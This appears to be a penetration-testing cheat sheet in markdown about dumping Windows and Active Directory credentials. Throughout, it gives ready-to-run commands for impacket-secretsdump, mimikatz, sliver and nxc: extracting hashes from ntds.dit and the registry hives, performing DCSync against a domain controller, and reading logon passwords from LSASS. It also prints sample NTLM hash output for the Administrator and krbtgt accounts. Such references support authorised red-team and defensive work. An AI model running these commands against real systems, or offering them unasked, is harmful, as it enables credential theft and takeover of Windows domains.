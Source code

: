 ```yaml
---
title: "secretsdump"
date: 2025-7-18
tags: ["SAM", "SYSTEM", "SECURITY", "Dcsync", "Impacket", "secretsdump", "Domain Controller", "Credential Dumping", "Active Directory", "Windows", "Ntds.Dit", "Hive"]
---
```


### Convert ntds.dit to .sqlite

```console
ntdsdotsqlite ntds.dit --system SYSTEM -o ntds.sqlite
```

<small>*Ref: [ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite)*</small>

### With ntds.dit and SYSTEM hive

{{< tab set1 tab1 >}}impacket{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

```console {class="sample-code"}
$ impacket-secretsdump -ntds ntds.dit -system system LOCAL
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7f82cc4be7ee6ca0b417c0719479dbec:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
---[SNIP]---
[*] Cleaning up...
```

{{< /tabcontent >}}

### With SAM, SYSTEM and SECURITY Hives

{{< tab set2 tab1 >}}impacket{{< /tab >}}
{{< tab set2 tab2 >}}mimikatz{{< /tab >}}
{{< tab set2 tab3 >}}sliver{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
reg save HKLM\SYSTEM system
```

```console
reg save HKLM\security security
```

```console
reg save hklm\sam sam
```

```console
.\mimikatz.exe "lsadump::secrets /system:SYSTEM /security:SECURITY"
```

```console
.\mimikatz.exe "lsadump::sam /system:SYSTEM /sam:SAM"
```

{{< /tabcontent >}}
{{< tabcontent set2 tab3 >}}

```console
reg save HKLM\SYSTEM system
```

```console
reg save HKLM\security security
```

```console
reg save hklm\sam sam
```

```console
mimikatz -- '"lsadump::secrets /system:C:\SYSTEM /security:C:\SECURITY"'
```

```console
mimikatz -- '"lsadump::sam /system:C:\SYSTEM /sam:C:\SAM"'
```

{{< /tabcontent >}}


### With Dcsync right

{{< tab set3 tab1 >}}impacket{{< /tab >}}
{{< tab set3 tab2 >}}nxc{{< /tab >}}
{{< tab set3 tab3 >}}mimikatz{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
# Password
impacket-secretsdump '<USER>:<PASSWORD>@<TARGET>'
```

```console
# NTLM
impacket-secretsdump '<DOMAIN>/<USER>@<DC>' -hashes ':<HASH>'
```

```console
# Kerberos
impacket-secretsdump -k -no-pass -dc-ip <DC_IP> <DC>
```

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

```console
nxc smb <TARGET> -d <DOMAIN> -u '<USER>' -H <HASH> --ntds
```

{{< /tabcontent >}}
{{< tabcontent set3 tab3 >}}

```console
.\mimikatz.exe "lsadump::dcsync /all" "exit"
```

```console
# Dump old creds
.\mimikatz.exe "lsadump::dcsync /user:<DOMAIN>\<USER> /history" "exit"
```

{{< /tabcontent >}}

### With NT AUTHORITY\SYSTEM / Administrator

{{< tab set4 tab1 >}}mimikatz{{< /tab >}}
{{< tab set4 tab2 >}}sliver{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
.\mimikatz.exe "sekurlsa::logonpasswords"
```

```console
.\mimikatz.exe "lsadump::lsa /patch"
```

{{< /tabcontent >}}
{{< tabcontent set4 tab2 >}}

```console
mimikatz -- '"sekurlsa::logonpasswords"'
```

```console
mimikatz -- '"lsadump::lsa /patch"'
```

{{< /tabcontent >}}